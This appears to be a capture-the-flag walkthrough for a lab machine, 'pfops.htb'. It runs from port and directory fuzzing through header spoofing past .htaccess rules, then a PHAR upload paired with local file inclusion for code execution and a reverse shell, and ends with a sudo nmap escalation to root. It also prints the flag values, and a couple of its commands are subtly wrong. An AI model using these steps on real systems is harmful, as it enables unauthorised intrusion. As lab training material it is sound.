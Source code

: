 ![](assets/images/banner.png)

<img src="assets/images/htb.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">pfops.htb</font>

​		27<sup>th</sup> October 2024

---

### Description:

This machine takes advantage of misconfigurations in file uploads, LFI exploitation, and Linux privilege misconfigurations, simulating an environment where attackers discover credentials and escalate privileges on a simulated internal server and gain root execution on internal firewall pfsense

### Difficulty:

`easy`

### Flags:

User: `htbmeetupcmr{PH4R_LF1_2_Rc3_ch411}`

Root: `htbmeetupcmr{NM4p_2_r007_0wn4g3}`

---

# Enumeration

1. **Network Scanning**:
   - Scan the machine’s IP to identify open ports:
     ```bash
     rustscan -a 16.16.145.247 -- -sV -sC -oN scan_results 16.16.145.247.txt
     ```
   - Open Ports:
     - **Port 80 (HTTP)**: Web server with unknown host redirection
     - **Port 22 (SSH)**: Potential SSH access

2. **Host Discovery**:
   - Accessing the machine’s IP in a browser causes a redirection to **pfops.htb**.
   - Add `pfops.htb` to `/etc/hosts`:
     ```plaintext
      #htb-MEETUP
      16.16.145.247 pfops.htb
     ```

3. **Web Enumeration on pfops.htb**:
   - If you did not follow the rules and never made your requests with the correct user-agent format you get a 403 forbidden page

   - The main page on **http://pfops.htb** shows a basic landing page with no obvious functionality.

   ![alt text](image.png)

   - Fuzz directories using `ffuf` to reveal a hidden `/dev/` 
     ```bash
     ffuf -u http://pfops.htb/FUZZ -w `fzf-wordlists` -H "User-Agent: htbmeetupcmr  bl4ckarch" -x http://127.0.0.1:8080    
    
     ```
   - Further fuzzing in the directory reveals the **.git** folder 
   - Dump `.git` contents using `git-dumper` and inspect the files to find `.htaccess`, which lists access requirements set on the apache server.

   - Doing some subdomain enumeration reveal a dev subdomain but with a 403 forbbiden page
   - upon analysing the content of the .htaccess file
      ```plaintext
         <IfModule mod_rewrite.c>
            RewriteEngine On
            # Restrict access based on X-Forwarded-For to allow only 192.168.100.0/24
            RewriteCond %{HTTP:X-Forwarded-For} !^192\.168\.100\.[0-9]{1,3}$
            RewriteRule ^ - [F]
            # Further restrict based on custom header for dev access
            RewriteCond %{HTTP:Admins} !^Tom$
            RewriteRule ^ - [F]
         </IfModule>

      ```
      - Here the access to the dev subdomain is conditioned with a request comming from an internal host in the lan network **192.168.100.0/24** 
      - Furthermore it is restricted to a particular header **Admins: Tom** 
     ```plaintext
     X-Forwarded-For: 192.168.100.0/24
     Admins: Tom
     ```

4. **Accessing dev.pfops.htb**:
   - Add `dev.pfops.htb` to `/etc/hosts`:
     ```plaintext
     16.16.145.247 dev.pfops.htb
     ```
   - Set custom headers to gain access:
     ```plaintext
     X-Forwarded-For: 192.168.100.1
     Admins: Tom
     ```
     - You can do this with a firefow brower extension https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search 
     by simply adding all your custom headers request and all request wiil be done with these headers

   - The page reveals a file upload form to check the integrity of XML configuration files.

---

# Foothold

1. **LFI Exploitation**:
   - The `page` parameter in **dev.pfops.htb** has a hidden parameter, since the webpage is still under developement we assume it's a mistake from the Développers, to check for this hidden parameter we Fuzz and check for the actual param
     ```plaintext
     ffuf -u 'http://dev.pfops.htb/?FUZZ=index.php' -w `fzf-wordlists` -H "User-Agent: htbmeetupcmr  bl4ckarch" -x http://127.0.0.1:8080  -mc 500,200,403 -H 'X-Forwarded-For: 192.168.100.1' -H 'Admins: Tom' -fs 2469
      ```
     ![alt text](image-2.png)
     
     - Getting the 500 error code while trying to get the server's index page make and error since it's 500 this tell us the server tried to include himself and therefore making a infinite loop and hence the error 
     - From there we try to test for a Local file inclusion vulnerability at it workss
     
     ![alt text](image-1.png)
     
     - The actual parameter is page is vulnerable to an LFI
      ![alt text](image-3.png)

2. **Bypassing Upload Restrictions**:

   - **dev.pfops.htb** permits `.txt` uploads, which allows bypassing restrictions using a **PHAR archive**.
   - Create a PHP info function to a file, `test.php`:
   - Create a zip named **test.zip** containing the `test.php`
   - Then rename the **test.zip** to **test.txt**
     ```bash
     echo "<?php phpinfo();?> >> test.php
     zip -r test.zip test.php
     mv test.php test.txt
     ```
   - upload the file to the server 
   - Trigger the shell with the `phar://` php filter to trigger execution:
     ```plaintext
     GET /?page=phar://uploads/e3c421cb45d2fc24b3219293fa0a9386/test.txt/test.php
     ```
     ![alt text](image-4.png)
   - Hence Remote code execution 
   - We then put a revershell php and repeat the process to get a shell
     
     ![alt text](image-5.png)

---

# Lateral Movement

1. **Database Credentials**:
   - Running **ss -tulpn** shows us a list of port on which the server is listenning
   we actually see port 3306 and port 8000 we actually get a python web server.
   - navigating throught the /var/www directory reveals `internal_app` which contains a `.env` file containing database credentials:
     
   - The `.env` password grants SSH access as **tom** due to password reuse.

     ![alt text](image-6.png)

2. **SSH to tom**:
   - Log in to **tom** via SSH put ssh is restricted to public key only:
     ```bash
     ssh tom@pfops.htb
     ```
      ![alt text](image-7.png)
   - While on our rev shell we do a su tom and enter the password and we are logged as tom
   ```shell
         tom@ip-172-31-43-97:/var/www/internal_app$ id
         id
         uid=1001(tom) gid=1001(tom) groups=1001(tom)
         tom@ip-172-31-43-97:/var/www/internal_app
   ```
---

# Privilege Escalation

1. **Sudo Privilege on Nmap**:
   - The `tom` user has limited sudo access to **nmap**. 
      
      ![alt text](image-8.png)
      https://gtfobins.github.io/gtfobins/nmap/#sudo
     ```bash
      TF=$(mktemp)
      echo 'os.execute("/bin/sh")' > $TF
      sudo nmap --script=$TF
     ```
   - This command executes as root, granting full system access.

     ![alt text](image-9.png)

---
